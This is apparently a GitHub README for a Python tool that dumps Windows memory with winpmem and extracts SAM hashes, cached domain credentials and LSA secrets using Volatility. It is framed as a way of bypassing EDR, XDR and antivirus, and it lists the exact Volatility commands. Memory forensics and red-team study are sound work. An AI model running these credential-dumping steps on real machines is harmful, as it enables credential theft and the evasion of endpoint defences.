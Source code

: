# Dump memory and get creds using Volatility - Bypassing EDR\XDR\AV

## Features

- Check RAM size and free disk space.
- Create a memory dump if there is sufficient space.
- Perform SAM, Cache, and Lsass dumps using Volatility.
- Option to run all three Volatility commands sequentially.

## Requirements

- Windows operating system.
- Python 3.x installed.
- `psutil` library (install using `pip install psutil`).
- Administrator permissions to run the script.

## Usage

1. **Clone the Repository**:
    ```bash
    git clone https://github.com/sxyrxyy/VolatilityCredDump.git
    cd VolatilityCredDump
    ```

2. **Install Dependencies**:
    ```bash
    pip install psutil
    ```

3. **Run the Script**:
    Open the Command Prompt as Administrator and navigate to the script directory:
    ```bash
    python VolatilityCredDump.py
    ```

## Script Details

### Main Function Workflow

1. **System Checks**:
    - Calculate RAM size in GB.
    - Check free disk space in the current directory.
    - Calculate required space (RAM size + 2GB headroom).

2. **Memory Dump**:
    If confirmed and there is enough space, run `winpmem_mini_x64_rc2.exe` to create `mem.raw`.

3. **Options**:
    If `mem.raw` is created and its size is sufficient, prompt the user with the following options:
    - **1**: SAM dump
    - **2**: Cache dump
    - **3**: Lsass dump
    - **4**: Run all (SAM, Cache, Lsass dumps)
    - **5**: Delete `mem.raw`
    - **6**: Exit the script

### Volatility Commands

- **SAM dump**:
    ```bash
    vol.exe -l sam_dump.txt -f mem.raw windows.hashdump.Hashdump
    ```

- **Cache dump**:
    ```bash
    vol.exe -l cache_dump.txt -f mem.raw windows.cachedump.Cachedump
    ```

- **Lsass dump**:
    ```bash
    vol.exe -l lsass_dump.txt -f mem.raw windows.lsadump.Lsadump
    ```

- **Run All**:
    Sequentially execute SAM dump, Cache dump, and Lsass dump commands.

---

**Note**: Ensure that `winpmem_mini_x64_rc2.exe` and `vol.exe` are in the same directory as the script.


